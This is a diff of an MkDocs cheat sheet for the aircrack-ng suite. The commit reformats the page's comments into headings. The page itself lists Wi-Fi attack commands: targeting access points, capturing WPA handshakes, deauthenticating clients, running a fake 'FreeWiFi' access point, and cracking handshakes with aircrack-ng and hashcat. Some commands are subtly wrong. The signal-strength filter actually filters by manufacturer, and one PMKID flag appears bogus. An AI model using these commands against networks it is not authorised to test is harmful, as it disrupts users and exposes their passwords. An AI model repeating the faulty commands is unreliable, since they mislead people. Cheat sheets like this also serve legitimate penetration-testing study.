

Before and after one commit to DirtyOptics/airbreach, an MkDocs documentation site: the page built from docs/cheatsheets/aircrack-ng-cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 961 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
vault backup: 2025-10-22 07:40:37

````diff
--- a/docs/cheatsheets/aircrack-ng-cheatsheet.md
+++ b/docs/cheatsheets/aircrack-ng-cheatsheet.md
@@ -91,14 +91,19 @@
 === "Basic Scanning"
 
     ### **Method 1: Basic AP Scan**
+
+    **Scan all channels:**
     ```bash
-    # Scan all channels
     sudo airodump-ng wlan0mon
+    ```
 
-    # Scan specific channel
+    **Scan specific channel:**
+    ```bash
     sudo airodump-ng -c 6 wlan0mon
+    ```
 
-    # Scan multiple channels
+    **Scan multiple channels:**
+    ```bash
     sudo airodump-ng -c 1,6,11 wlan0mon
     ```
 
@@ -110,14 +115,19 @@
 === "Target Specific"
 
     ### **Method 2: Target Specific Networks**
+
+    **Target by BSSID:**
     ```bash
-    # Target by BSSID
     sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF wlan0mon
+    ```
 
-    # Target by ESSID (network name)
+    **Target by ESSID (network name):**
+    ```bash
     sudo airodump-ng -c 6 --essid "TargetNetwork" wlan0mon
+    ```
 
-    # Target with file output
+    **Target with file output:**
+    ```bash
     sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
     ```
 
@@ -129,14 +139,19 @@
 === "Advanced Filtering"
 
     ### **Method 3: Advanced Filtering**
+
+    **Filter by encryption:**
     ```bash
-    # Filter by encryption
     sudo airodump-ng --encrypt WPA wlan0mon
+    ```
 
-    # Filter by manufacturer
+    **Filter by manufacturer:**
+    ```bash
     sudo airodump-ng --manufacturer "Cisco" wlan0mon
+    ```
 
-    # Filter by signal strength
+    **Filter by signal strength:**
+    ```bash
     sudo airodump-ng --manufacturer "Netgear" wlan0mon
     ```
 
@@ -152,30 +167,34 @@
 === "Passive Capture"
 
     ### **Method 1: Passive Capture**
+
+    **Start capture:**
     ```bash
-    # Start capture
     sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon
-
-    # Wait for client to connect naturally
-    # Monitor for WPA handshake in top-right corner
     ```
 
     !!! tip "Passive Capture"
         - **Pros**: No interference, stealthy
         - **Cons**: Requires patience, depends on client activity
         - **Best for**: High-traffic networks with regular connections
+        - **Note**: Wait for client to connect naturally and monitor for WPA handshake in top-right corner
 
 === "Active Deauth"
 
     ### **Method 2: Active Deauth Attack**
+
+    **Terminal 1 - Capture handshake:**
     ```bash
-    # Terminal 1: Capture handshake
     sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon
+    ```
 
-    # Terminal 2: Deauth attack
+    **Terminal 2 - Deauth attack:**
+    ```bash
     sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon
+    ```
 
-    # Terminal 3: Target specific client
+    **Terminal 3 - Target specific client:**
+    ```bash
     sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c CLIENT:MAC:ADDR wlan0mon
     ```
 
@@ -187,11 +206,14 @@
 === "Fake AP Attack"
 
     ### **Method 3: Fake AP Attack**
+
+    **Create fake AP:**
     ```bash
-    # Create fake AP
     sudo airbase-ng -a AA:BB:CC:DD:EE:FF --essid "FreeWiFi" wlan0mon
+    ```
 
-    # Capture handshakes from connecting clients
+    **Capture handshakes from connecting clients:**
+    ```bash
     sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w fake_handshake wlan0mon
     ```
 
@@ -207,14 +229,19 @@
 === "Dictionary Attack"
 
     ### **Method 1: Dictionary Attack**
+
+    **Basic dictionary attack:**
     ```bash
-    # Basic dictionary attack
     sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt handshake-01.cap
+    ```
 
-    # Custom wordlist
+    **Custom wordlist:**
+    ```bash
     sudo aircrack-ng -w /path/to/custom.txt handshake-01.cap
+    ```
 
-    # Multiple wordlists
+    **Multiple wordlists:**
+    ```bash
     sudo aircrack-ng -w wordlist1.txt,wordlist2.txt handshake-01.cap
     ```
 
@@ -226,11 +253,14 @@
 === "Brute Force Attack"
 
     ### **Method 2: Brute Force Attack**
+
+    **4-way handshake brute force:**
     ```bash
-    # 4-way handshake brute force
     sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF handshake-01.cap
+    ```
 
-    # PMKID attack (if supported)
+    **PMKID attack (if supported):**
+    ```bash
     sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -r PMKID handshake-01.cap
     ```
 
@@ -242,14 +272,19 @@
 === "Hashcat Integration"
 
     ### **Method 3: Hashcat Integration**
+
+    **Convert cap to hccapx:**
     ```bash
-    # Convert cap to hccapx
     cap2hccapx handshake-01.cap handshake.hccapx
+    ```
 
-    # Hashcat attack
+    **Hashcat attack:**
+    ```bash
     hashcat -m 2500 handshake.hccapx /usr/share/wordlists/rockyou.txt
+    ```
 
-    # GPU acceleration
+    **GPU acceleration:**
+    ```bash
     hashcat -m 2500 -d 1 handshake.hccapx /usr/share/wordlists/rockyou.txt
     ```
 
````
